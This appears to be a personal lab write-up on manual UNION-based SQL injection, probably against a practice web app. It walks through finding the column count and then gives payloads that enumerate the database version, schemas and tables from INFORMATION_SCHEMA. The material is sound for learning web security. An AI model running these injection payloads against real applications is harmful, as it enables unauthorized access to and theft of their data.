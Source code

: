 ```sql
bs' UNION SELECT 1 -- -
```

This payload essentially selects dummy data for the first column, and as you know, UNION statements can only work if both SELECT statements refer to the same number of columns. So if this statement works, then I know that the tables I am working with has only 1 column, but if it doesn't work, then I have to keep guessing by selecting more columns with more dummy data until the query executes. To illustrate this further, here is the SQL query we are executing:

```sql
SELECT id, first_name, surname FROM users WHERE user_id = 'bs' UNION SELECT 1 -- -';
```

In this query, we are executing 2 SELECT statements, the first being SELECT id, firstname, surname, and the second one being SELECT 1. As you can see, I am speculating that we are probably selecting 3 columns in the first statement, and 1 column in the second SELECT statement, which is unven. I obtain this output when I run the injection:

![[Pasted image 20230424004915.png]]
```
The used SELECT statements have a different number of columns
```

As expected, we have an uneven amount of columns, so I edit my payload to this, to try 2 columns instead of 1:

```sql
bs' UNION SELECT 1, 2 -- -
```

![[Pasted image 20230424005612.png]]

Surprisingly, this actually works, so my speculation that the first query was selecting 3 columns was incorrect, it was only selecting 2 columns. So I believe that the query running in the backend with this injection looks like this:

```sql
SELECT first_name, surname FROM users WHERE user_id = 'bs' UNION SELECT 1, 2 -- -';
```

As you can see, it is most likely not selecting the id, but just the first_name and surname. Finally, I was able to match the number of columns in both SELECT statements using UNION, so now we know that they are 2 columns we are working with. 

```sql
1' UNION SELECT 1, @@version -- -
```

```sql
1' UNION SELECT 1, SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA-- -
```

```sql
1' UNION SELECT SCHEMA_NAME, database() from INFORMATION_SCHEMA.SCHEMATA-- -
```

```sql
1' UNION SELECT TABLE_NAME, TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES-- -
```
